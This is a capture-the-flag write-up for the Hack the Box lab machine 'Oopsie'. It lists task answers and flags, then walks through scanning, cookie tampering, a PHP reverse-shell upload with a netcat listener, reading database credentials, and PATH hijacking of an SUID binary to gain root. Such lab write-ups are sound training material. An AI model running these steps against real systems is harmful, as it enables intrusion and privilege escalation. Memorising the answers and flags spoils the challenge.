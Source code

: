 # Oopsie
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Oopsie
* Topic: PHP, SUID
* Difficulty: Very easy
* Date: 13-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. With what kind of tool can intercept web traffic? 
 - **proxy**
2. What is the path to the directory on the webserver that returns a login page? 
- **/cdn-cgi/login**
3. What can be modified in Firefox to get access to the upload page? 
- **cookie**
4. What is the access ID of the admin user?
- **34322**
5. On uploading a file, what directory does that file appear in on the server? 
- **/uploads**
6. What is the file that contains the password that is shared with the robert user? 
- **db.php**
7. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? 
- **find**
8. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? 
- **root**
9. What SUID stands for? 
- **set owner user id**
10. What is the name of the executable being called in an insecure manner? 
 - **cat**
 11. Submit user flag 
  - **f2c74ee8db7983851ab2a96a44eb7981**

---
## Flag:
Nmap:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -n -sC -sV 10.129.12.64
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 14:54 EDT
Nmap scan report for 10.129.12.64
Host is up (0.069s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.06 seconds
```

The web page:

![](./attachments/Pasted%20image%2020220413210129.png)

Burp:

![](./attachments/Pasted%20image%2020220413212527.png)

The Login page:

![](./attachments/Pasted%20image%2020220413212739.png)

Login as guest:

![](./attachments/Pasted%20image%2020220413212943.png)

Cookies:

![](./attachments/Pasted%20image%2020220413213635.png)

Access:

![](./attachments/Pasted%20image%2020220413213808.png)

File Uploaded:

![](./attachments/Pasted%20image%2020220413215722.png)

Find upload dir:

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir --url 10.129.12.64 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.12.64
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2022/04/13 15:05:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.129.12.64/images/]
/index.php            (Status: 200) [Size: 10932]                                
/themes               (Status: 301) [Size: 313] [--> http://10.129.12.64/themes/]
/uploads              (Status: 301) [Size: 314] [--> http://10.129.12.64/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.129.12.64/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.129.12.64/js/]     
/fonts                (Status: 301) [Size: 312] [--> http://10.129.12.64/fonts/]  
                                                                                  
===============================================================
2022/04/13 15:36:01 Finished
===============================================================
```

Reverse shell call.

`http://10.129.12.64/uploads/php-reverse-shell.php`

![](./attachments/Pasted%20image%2020220413220747.png)

Netcat:

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.12.64] 52642
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:07:00 up  1:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@oopsie:/$ 
```

We got the shell!

Looking around for a bit, we find `db.php`. 

```console 
www-data@oopsie:/$ cat /var/www/html/cdn-cgi/login/db.php           
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ 
```

Great, now we are logged in as robert!

```console 
robert@oopsie:/$ cd ~
robert@oopsie:~$ ls
user.txt
robert@oopsie:~$ cat user.txt
f2c74ee8db7983851ab2a96a44eb7981

robert@oopsie:/$ cd tmp/
robert@oopsie:/tmp$ echo '/bin/sh' > cat
robert@oopsie:/tmp$ ls
cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/tmp$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 3
3
---------------
# whoami
root
```

And now as root!

```console
# pwd
/tmp
# rm cat
# cd /root
# ls
reports  root.txt
# cat root.txt
af13b0bee69f8a877c3faf667f7beacf
```

The final flag!

**Flag:** `af13b0bee69f8a877c3faf667f7beacf`

---
**Tags:** [[Hack The Box]]
